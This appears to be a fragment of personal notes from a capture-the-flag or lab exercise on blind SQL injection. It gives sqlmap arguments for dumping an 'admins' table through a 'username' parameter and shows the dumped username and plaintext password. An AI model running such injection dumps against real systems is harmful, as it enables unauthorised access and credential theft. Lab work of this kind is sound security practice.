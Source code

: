 ____
`
Blind SQLi

SQLmap

```bash
--level 5 --risk 3 -p username --batch --threads 10 -T admins -D level2 -  
-dump
```

```
+----+----------+----------+  
| id | password | username |  
+----+----------+----------+  
| 1  | cheryl   | joellen  |  
+----+----------+----------+
```


Change request method

![[Pasted image 20241114192816.png]]

